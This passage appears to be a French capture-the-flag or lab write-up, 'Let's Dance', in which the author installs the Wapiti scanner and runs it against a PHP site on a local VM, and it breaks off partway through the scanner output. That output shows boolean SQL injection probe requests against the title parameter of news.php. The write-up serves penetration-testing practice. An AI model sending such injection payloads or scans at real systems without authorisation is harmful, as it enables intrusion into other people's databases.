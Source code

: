 ### Let's Dance

Sur le port 80 on trouve un site web basé sur PHP (l'extension des scripts est visible).

Je créé un environnement virtual Python et l'active pour installer la dernière version de `Wapiti`:

```bash
python3 -m venv wapiti3
. wapiti3/bin/activate
pip install wapiti3
```

Il trouve immédiatement une faille SQL:

```console
$ wapiti -u http://192.168.56.102/ --color -m all

     __      __               .__  __  .__________
    /  \    /  \_____  ______ |__|/  |_|__\_____  \
    \   \/\/   /\__  \ \____ \|  \   __\  | _(__  <
     \        /  / __ \|  |_> >  ||  | |  |/       \
      \__/\  /  (____  /   __/|__||__| |__/______  /
           \/        \/|__|                      \/
Wapiti 3.2.4 (wapiti-scanner.github.io)
[*] Saving scan state, please wait...

[*] Launching module ssrf

[*] Launching module log4shell

[*] Launching module wp_enum
No WordPress Detected

[*] Launching module csp
CSP is not set

[*] Launching module sql
---
SQL Injection in http://192.168.56.102/news.php via injection in the parameter title
Evil request:
    GET /news.php?title=dance%27%20AND%2086%3D86%20AND%20%2755%27%3D%2755 HTTP/1.1
    host: 192.168.56.102
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---
---
SQL Injection in http://192.168.56.102/news.php via injection in the parameter title
Evil request:
    GET /news.php?title=rap%27%20AND%2059%3D59%20AND%20%2723%27%3D%2723 HTTP/1.1
    host: 192.168.56.102
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---
---
SQL Injection in http://192.168.56.102/news.php via injection in the parameter title
Evil request:
    GET /news.php?title=sing%27%20AND%2018%3D18%20AND%20%2772%27%3D%2772 HTTP/1.1
    host: 192.168.56.102
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
```
